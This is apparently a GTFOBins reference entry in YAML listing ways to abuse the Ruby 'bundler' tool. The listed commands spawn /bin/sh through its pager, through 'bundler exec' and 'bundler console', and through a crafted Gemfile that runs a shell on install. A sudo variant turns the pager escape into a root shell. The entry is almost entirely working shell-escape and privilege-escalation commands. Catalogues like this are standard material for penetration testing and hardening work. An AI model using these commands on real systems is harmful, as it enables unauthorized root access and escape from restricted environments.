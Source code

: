 ```yaml
---
functions:
  shell:
    - description: This invokes the default pager, which is likely to be  [`less`](/gtfobins/less/), other functions may apply.
      code: |
        bundler help
        !/bin/sh
    - code: |
        export BUNDLE_GEMFILE=x
        bundler exec /bin/sh
    - code: |
        TF=$(mktemp -d)
        touch $TF/Gemfile
        cd $TF
        bundler exec /bin/sh
    - description: This spawns an interactive shell via [`irb`](/gtfobins/irb/).
      code: |
        TF=$(mktemp -d)
        touch $TF/Gemfile
        cd $TF
        bundler console
        system('/bin/sh -c /bin/sh')
    - code: |
        TF=$(mktemp -d)
        echo 'system("/bin/sh")' > $TF/Gemfile
        cd $TF
        bundler install
  sudo:
    - description: This invokes the default pager, which is likely to be  [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo bundler help
        !/bin/sh
---
```


